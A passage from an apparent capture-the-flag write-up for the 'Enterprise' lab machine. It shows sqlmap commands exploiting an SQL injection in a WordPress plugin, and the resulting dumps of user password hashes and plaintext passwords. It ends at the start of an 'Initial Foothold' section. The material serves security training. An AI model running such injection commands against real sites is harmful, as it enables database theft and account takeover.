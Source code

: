 ``` shell 
Database: wordpress
Table: wp_users
[1 entry]
+------+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
| ID   | user_url | user_pass                          | user_email                   | user_login    | user_status | display_name  | user_nicename | user_registered     | user_activation_key |
+------+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
| 1    | <blank>  | $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2. | william.riker@enterprise.htb | william.riker | 0           | william.riker | william-riker | 2017-09-03 19:20:56 | <blank>             |
+------+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+

[19:08:55] [INFO] table 'wordpress.wp_users' dumped to CSV file '/home/pwnd_root/.sqlmap/output/10.10.10.61/dump/wordpress/wp_users.csv'
[19:08:55] [INFO] fetched data logged to text files under '/home/pwnd_root/.sqlmap/output/10.10.10.61'
[19:08:55] [WARNING] you haven't updated sqlmap for more than 92 days!!!

[*] ending @ 19:08:55 /2020-07-22/

```
**wordpress-** ***wp_posts***
``` shell 
[pwnd_root@manjaro Enterprise]$ sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 --dbms=mysql -D wordpress -T wp_posts --dump
---SNIP---
      | <blank>      | 0             | 2017-09-06 14:28:35 | 2017-09-06 15:28:35 | <blank>       | closed         | <blank>        | 2017-09-06 14:28:35 | <blank>               
| 
| http://enterprise.htb/?p=68                                                      | 68   | <blank> | <blank> | 2017-09-06 15:40:30 | 66-revision-v1                       | revi
sion            | 0          | Passwords                       | closed      | 1           | 66          | inherit     | Needed somewhere to put some passwords quickly\r\n\r\nZx
JyhGem4k338S2Y\r\n\r\nenterprisencc170\r\n\r\nZD3YxfnSjezg67JZ\r\n\r\nu*Z14ru0p#ttj83zS6\r\n\r\n \r\n\r\n 

```
From the three dumps, the following usernames and passwords were identified. <br>
**Usernames**       <br>
*william.riker*     <br>
*geordi.la.forge*   <br>
**Passwords**       <br>
*ZxJyhGem4k338S2Y*  <br>
*enterprisencc170*  <br>
*ZD3YxfnSjezg67JZ*  <br>
*u\*Z14ru0p#ttj83zS6*<br>

## Initial Foothold
Assuming that these identified credentials work, there are now two possible entry points. One, through *WordPress* 
 and the other through *Joomla*.
